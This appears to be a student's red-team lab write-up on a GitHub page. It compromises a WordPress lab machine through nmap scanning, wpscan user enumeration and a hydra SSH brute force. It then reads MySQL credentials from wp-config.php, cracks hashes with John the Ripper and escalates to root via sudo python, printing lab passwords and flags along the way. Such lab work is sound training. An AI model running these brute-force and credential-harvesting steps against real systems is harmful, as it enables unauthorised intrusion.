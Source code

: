 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

![nmao_1](https://github.com/crashandmayhem/Final-Project/blob/main/Images/nmap%20-sV.png)

![nmap_2](https://github.com/crashandmayhem/Final-Project/blob/main/Images/nmap%20-sV_2.png)

This scan identifies the services below as potential points of entry:
- Target 1 _192.168.1.110_
![target1](https://github.com/crashandmayhem/Final-Project/blob/main/Images/target1%20points%20of%20entry.png)

  - **_Port 22_**: SSH (OpenSSH 6.7p1 Debian)
  - **_Port 80_**: HTTP (Apache httpd 2.4.10)
  - **_Port 111_**: rpcbind (2-4 RPC #100000)
  - **_Port 139_**: netbios-ssn (Samba smbd 3.X - 4.X)
  - **_Port 445_**: netbios-ssn (Samba smbd 3.X - 4.X)

The following vulnerabilities were identified on _Target 1_:
  - _CVE-2021-28041_ Open SSH
  - _CVE-2017-15710_ Apache https 2.4.10
  - _CVE-2017-8779_ Open rpcbind port could lead to DDoS
  - _CVE-2017-7494_ Samba NetBios

Other Vulnerabilities Include:

  - WordPress User Enumeration
    - Attackers were able to obtain a list of Usernames and taylor the attacks
  - Weak User Passwords
    - Attackers were able to Brute-Force one password and John the Ripper another  
  - Sensitive Data Exposure
    - Attackers were able to locate and use wp-config.php to log into SQL Database to retrieve more information
  - Python sudo privilege escalation

### Exploitation

_WordPress User Enumeration_
  -  Ran the command: wpscan --url http://192.168.1.110/wordpress --enumerate u
     -  This allowed me to get a list of usernames

![wpscan](https://github.com/crashandmayhem/Final-Project/blob/main/Images/wpscan_1.png)

![wpscan2](https://github.com/crashandmayhem/Final-Project/blob/main/Images/wpscan_3.png)

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: {b9bbcb33e11b80be759c4e844862482d}
    - **_CVE-2021-28041_ Open SSH AND _Weak Password_**
      - Ran a Brute Force Attack to obtain michael's password and then ssh into the server
        - Command: hydra -l michael -P /usr/share/wordlists/rockyou.txt -vV 192.168.1.110 -t 4 ssh

- Brute Force

![brute force](https://github.com/crashandmayhem/Final-Project/blob/main/Images/hydra_1.png)

![brute force2](https://github.com/crashandmayhem/Final-Project/blob/main/Images/hydra_2.png)

- Command: ssh michael@192.168.1.110

![ssh michael](https://github.com/crashandmayhem/Final-Project/blob/main/Images/ssh%20michael.png)

- Found Flag 1 through scanning through the files and directories and also ran a GREP command
  - Commands:
    - cd /
    - cd /var/www
    - grep -R flag

![flag1_1](https://github.com/crashandmayhem/Final-Project/blob/main/Images/flag%201.png)

![flag1_2](https://github.com/crashandmayhem/Final-Project/blob/main/Images/grep%20for%20flags.png)

  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Same Method as Flag1**
      - I was able to find the txt for Flag2 during the process of Flag1 and was located in /var/www and did a ls in the directory
      - Commands:
        - cd /var/www
        - ls
        - cat flag2.txt

![flag2](https://github.com/crashandmayhem/Final-Project/blob/main/Images/flag%202.png)

 - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Sensitive Data Exposure**
      - Signed in as Michael I was able to locate the login information for WordPress SQL Servers DB_USER 'root' DB_PASSWORD 'R@v3nSecurity'
        - cd /var/www/html/wordpress
        - ls
        - nano wp-config.php

![config files](https://github.com/crashandmayhem/Final-Project/blob/main/Images/mysql.png)

![nano mysql](https://github.com/crashandmayhem/Final-Project/blob/main/Images/nano%20wp-config.php.png)

- Once in MySQL, I was able to navigate through the database and locate Flags 3 and 4 within wp_posts and obtain 'Steven' hashed password

![mysql2](https://github.com/crashandmayhem/Final-Project/blob/main/Images/mysql_2.png)

![mysql3](https://github.com/crashandmayhem/Final-Project/blob/main/Images/mysql_3.png)

![sqlpw](https://github.com/crashandmayhem/Final-Project/blob/main/Images/mysql_user_pw.png)

- _Flags 3 & 4_

![flags3-4](https://github.com/crashandmayhem/Final-Project/blob/main/Images/flags%203_4.png)


 - `flag4.txt`: {715dea6c055b9fe3337544932f2941ceroot}
    - **Python sudo escalation**
      - With the hashed passwords, I was able to create a .txt file named _'wp_hashes.txt'_ and then use _John the Ripper_ to crack Steven's password 'pink84'
        - Commands:
          - root@Kali: cd Documents
          - nano wp_hashes.txt
            - inputted the hashes found in WordPress SQL Database
          - saved the txt file
          - john wp_hashes.txt

![john](https://github.com/crashandmayhem/Final-Project/blob/main/Images/Screenshot%202022-08-06%20142027.png)

- SSH as Steven and escalated to Root

![steven](https://github.com/crashandmayhem/Final-Project/blob/main/Images/escalate%20to%20root%20steven.png)

- Once privileges were escalated, started searching directories for flags
  - Commands:
    - ls -a
    - cd ../
    - ls
    - cd /root
    - ls -a
    - cat flag4.txt

![flag4](https://github.com/crashandmayhem/Final-Project/blob/main/Images/flag%20as%20root%20steven.png)

